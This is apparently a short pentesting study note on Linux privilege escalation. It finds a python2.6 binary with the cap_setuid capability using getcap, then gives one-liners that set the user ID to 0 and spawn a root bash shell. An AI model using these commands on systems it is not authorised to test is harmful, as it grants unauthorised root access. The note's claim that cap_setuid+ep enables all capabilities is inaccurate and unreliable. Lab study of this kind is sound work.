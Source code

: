 # Detection
---
- `getcap -r / 2>/dev/null`
	- `cap_setuid+ep`-> **==Permit Everything== (Permitted Effective)**
		- Means that **all capabilities are enabled**
	- ![[Pasted image 20250430150207.png]]
- We can run `python2.6`**as root user**

# Exploitation
---
- `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("whoami")'`
	- ![[Pasted image 20250430150718.png]]
- Get a shell:
	- `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
	- ![[Pasted image 20250430150748.png]]